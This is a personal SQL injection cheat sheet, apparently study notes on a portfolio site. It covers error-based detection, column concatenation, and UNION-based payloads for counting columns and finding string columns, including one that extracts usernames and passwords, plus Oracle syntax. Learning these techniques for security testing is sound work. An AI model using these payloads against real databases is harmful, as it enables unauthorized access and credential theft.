

repository: jh1h1h/portfolio · page: docs/general/SQLi.html · generator: docusaurus

Cheatsheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

(the syntax below might be different for different databases so pls refer to the cheatsheet!)

Detection: Send `'` and it causes internal server error or other error. (If it gets encoded by the frontend send non-encoded version again in Burp to ensure.). This is bcos SQL uses `'` for string delimiters, so inside the SQL query most of the time it would be `SELECT * WHERE name='<user input>'`.

Concatenating: You can concatenate multiple columns using `||`. Eg `' UNION SELECT username || '~' || password FROM users--`

## UNION attacks
Vuln query is `SELECT a, b FROM table1` allowing u to do `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`
- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

### How to determine number of columns

1. ORDER BY: try each payload until an error is returned
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

2. NULL,NULL,NULL: try each payload until no error
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

### How to determine columns with useful data types
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
until no error occurs

### Oracle (FROM dual)
For Oracle, every SELECT has to be paired with a FROM, so you probably have to do `' FROM dual ORDER BY 1--` or `' FROM dual UNION SELECT NULL FROM DUAL--`
